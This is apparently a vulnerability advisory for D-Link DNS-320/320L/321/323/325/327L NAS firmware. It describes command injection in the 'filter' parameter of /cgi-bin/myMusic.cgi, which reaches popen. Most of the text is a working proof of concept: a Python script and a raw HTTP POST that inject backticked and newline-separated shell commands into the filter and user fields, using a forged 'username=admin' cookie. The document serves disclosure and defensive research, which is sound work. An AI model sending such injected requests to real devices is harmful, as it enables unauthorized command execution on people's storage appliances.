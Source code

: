 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_audio_search function of the file /cgi-bin/myMusic.cgi.  The variable `filter`is passed from a POST request and is assigned to `v3` via the `snprintf` function at line 32 and invoked by the `popen` command,  it can lead to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723711343673-c563a4e2-ff64-4531-8db6-044126da183f.png#averageHue=%23fcf8f6&clientId=ua34e0002-2f95-4&from=paste&height=262&id=u3a8bd6c9&originHeight=262&originWidth=1150&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46252&status=done&style=none&taskId=u5c9e0180-9aec-4b8b-8b62-c2d00fe7941&title=&width=1150)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_audio_search&filter=`touch%09/tmp/112`&type=1&user=photos&idx=10&user=%0atouch%09/tmp/112%0a&genre=10&date=19&r=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_audio_search&filter=`touch%09/tmp/112`&type=1&user=photos&idx=10&user=%0atouch%09/tmp/112%0a&genre=10&date=19&r=/tmp/
```
